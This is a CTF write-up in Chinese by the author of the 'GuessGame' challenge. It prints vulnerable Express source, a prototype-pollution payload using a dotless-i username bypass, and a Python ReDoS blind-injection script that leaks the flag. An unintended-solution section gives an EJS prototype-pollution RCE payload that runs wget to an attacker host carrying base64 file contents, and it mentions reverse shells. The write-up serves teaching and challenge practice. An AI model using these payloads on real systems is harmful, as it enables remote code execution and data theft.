


### GuessGame

出题人：南阳理工学院——12end

#### ReDos Blind

前几日看到Takashi Yoneuchi发表的redos研究：

[Revisiting ReDos](https://speakerdeck.com/lmt_swallow/revisiting-redos-a-rough-idea-of-data-exfiltration-by-redos-and-side-channel-techniques)

[ReDos](https://diary.shift-js.info/blind-regular-expression-injection/?tdsourcetag=s_pctim_aiomsg)

（这几篇文章十分有趣，尤其是构造正则逐位延时的那部分）

参考了几篇文章，结合node一些众所周知的特性出了道水题（第一次写node，代码写的一团糟。。同时也直接导致了后面被ejs-rce非预期的解法）

出这道题的目的是想让大家了解下在单进程的node下，redos攻击有多么恐怖；以及redos blind的这种技术（我印象中我打过的比赛中都没有见过这样的题）

实际上出题时候见过ejs的rce，但是当时看到标题`Express+lodash+ejs: 从原型链污染到RCE`还以为这个需要依赖lodash，就直接扔收藏夹没理了~

关于为什么用node？不想用php写，用python写的话好像几个月前国外出过一道这样的题，本身又想学下node，就拿node开刀了。

因为我以为这次比赛是一队一靶机（递交题目时也和主办方说明了node单进程会阻塞，只能一个人做），甚至想着原型污染之后就不会再有人传log了，所以连log都是用变量存的，没想到这次比赛都是公共环境，给大家带来这么糟糕的比赛体验，还多次麻烦了主办方，**实在抱歉**

---

#### 预期解

首页是一个登记，checkin之后给了`/verifyFlag`路由，然后让猜flag。

乱猜一通回显一致，页面源代码提示`/static/app.js`下载源码。

```javascript
var config = {
    "forbidAdmin" : true,
    //"enableReg" : true
};
var loginHistory = [];
var adminName = "admin888";
var flag = "************";

app.get('/', function (req, res) {
    res.render("index");
});

//So terrible code~
app.post('/',function (req, res) {
    if(typeof req.body.user.username != "string"){
        res.end("error");
    }else {
        if(config.forbidAdmin && req.body.user.username.includes("admin")){
            res.end("any admin user has been baned");
        }else {
            if(req.body.user.username.toUpperCase() === adminName.toUpperCase())
                //only log admin's activity
                log(req.body.user);
            res.end("ok");
        }
    }
});

app.get('/log', function (req,res) {
    if(loginHistory.length==0){
        res.end("no log");
    }else {
        res.json(loginHistory);
    }
});

app.get('/verifyFlag', function (req, res) {
    res.render("verifyFlag");
});


app.post('/verifyFlag',function (req,res) {
    //let result = "Your match flag is here: ";
    let result = "Emm~ I won't tell you what happened! ";

    if(typeof req.body.q != "string"){
        res.end("please input your guessing flag");
    }else{
        let regExp = req.body.q;
        if(config.enableReg && noDos(regExp) && flag.match(regExp)){
            //res.end(flag);
            //Stop your wishful thinking and go away!
        }
        if(req.query.q === flag)
            result+=flag;
        res.end(result);
    }
});

function noDos(regExp) {
    //match regExp like this will be too hard
    return !(regExp.length>30||regExp.match(/[)]/g).length>5);
}

function log(userInfo){
    let logItem = {"time":new Date().toString()};
    merge(logItem,userInfo);
    loginHistory.push(logItem);
}
```

可以看到verifyFlag处需要regExp选项为true，源码中这个变量被注释掉了。

checkIn操作提供了一个记录admin登记日志的功能，且log函数使用了merge功能，会出现原型链污染。

在log前有一个校验，forbidAdmin选项开启时，用户名不能出现'admin'，而在后面校验admin并且存日志的时候使用的是toUppercase，所以构造如下json，能够原型链污染到enableReg变量

`{"user":{"username": "admın888","__proto__": {"enableReg": true}}}`

> "ı"在javascript大写处理后为I

开启enableReg后就能够通过正则来匹配flag，但显然不论匹配与否回显都是一致的，看到代码后面对正则的一些限制，能想到是通过reDos来盲注出flag。

运行脚本得到flag，（脚本是对文章中脚本改了改

```python
import socket
import sys
import time
import random
import string
import requests
import re

# constants
THRESHOLD = 2

# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})((((.*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    #sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        #sock.connect(("localhost", 9999))
        # sock.recv(1024)
        #sock.sendall((payload + "\n").encode())
        _start = time.time()
        requests.post("http://121.37.179.47:8081/verifyFlag", {"q": payload})
        # sock.recv(1024)
        _end = time.time()
        duration = _end - _start
    except:
        duration = -1
        exit(1)
    # finally:
        # sock.close()
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = "!"  # generate_salt()
    # while not prop_holds('.*', salt):
    #    salt = generate_salt()
    #print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 15
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
    print("[+] length: {}".format(secret_length))

    S = "qwdfkjurlasetghnioyzxcvbpmQWDFKJURLASETGHNIOYZXCVBPM1234567890"
    secret = ""
    for i in range(0, secret_length):
        for c in S:
            if prop_holds(nth_char_is(i+1, c), salt):
                secret += c
                print("[*] {}".format(secret))
    print("[+] secret: {}".format(secret))

```

脚本打我自己电脑上的靶机花了大概3分钟：



---

#### 非预期解

关于非预期的ejs-rce：

```python
import requests
url = "http://127.0.0.1:32771"
requests.post(url, json={"user": {"username": "admın888", "__proto__": {
              "outputFunctionName": "process.mainModule.require('child_process').exec('wget http://my_ip:2333/`cat app.js | grep flag | base64 | tr -d \"\\n\"`');//"}}})
```

打过去之后访问需要ejs渲染的界面（譬如首页）即可触发

（真庆幸没有人直接return一个exec('cat app.js')

这样子会得到



也可以直接反弹shell，需要注意的是容器用的是alpine，内置工具少之又少，它没有bash，你只能用ash或者sh，而且通过传统bash反弹shell中使用的`/dev/tcp/ip/port`这种方法也是不可以用的（alpine-linux并不允许这样调用socket）具体如何反弹，请选手们自行了解

如果对本题感兴趣，我已将docker环境及本wp上传至github:`https://github.com/12end/Ctf-Challanges/GuessGame/`